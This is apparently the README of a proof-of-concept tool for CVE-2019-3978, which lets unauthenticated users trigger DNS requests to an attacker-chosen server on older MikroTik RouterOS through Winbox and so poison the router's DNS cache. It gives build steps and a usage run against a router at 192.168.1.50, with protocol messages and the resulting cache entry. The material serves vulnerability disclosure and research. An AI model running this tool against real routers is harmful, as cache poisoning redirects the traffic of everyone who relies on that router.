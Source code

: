 # Unauthenticated DNS request via Winbox

RouterOS before 6.45.7 (stable) and 6.44.6 (Long-term) allowed an unauthenticated remote user trigger DNS requests to a user specified DNS server via port 8291 (winbox). The DNS response then gets cached by RouterOS, setting up a perfect situation for unauthenticated DNS cache poisoning. This is assigned CVE-2019-3978.

This PoC takes a target ip/port (router) and a DNS server (e.g. 8.8.8.8). The PoC will always send a DNS request for example.com. In the following write up, I detail how to use this to poison the routers cache:

* https://medium.com/tenable-techblog/routeros-chain-to-root-f4e0b07c0b21

Note that the writup focuses on router's configured *without* the DNS server enabled. Obviously this attack is significantly more powerful when downstream clients use the router as a DNS server.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage Example

```sh
albinolobster@ubuntu:~/routeros/poc/winbox_dns_request/build$ ./winbox_dns_request -i 192.168.1.50 -p 8291 -s 8.8.8.8
-> {bff0005:1,u1:134744072,uff0006:1,uff0007:3,s3:'example.com',Uff0001:[14]}
<- {u4:584628317,uff0003:2,uff0006:1,s3:'example.com',U6:[584628317],U7:[21496],Uff0001:[],Uff0002:[14],S5:['example.com']}
albinolobster@ubuntu:~/routeros/poc/winbox_dns_request/build$ ssh admin@192.168.1.50
...
[admin@MikroTik] > ip dns cache print
Flags: S - static 
 #   NAME                               ADDRESS                                                              TTL         
 0   example.com                        93.184.216.34                                                        5h57m57s    
[admin@MikroTik] > 
```
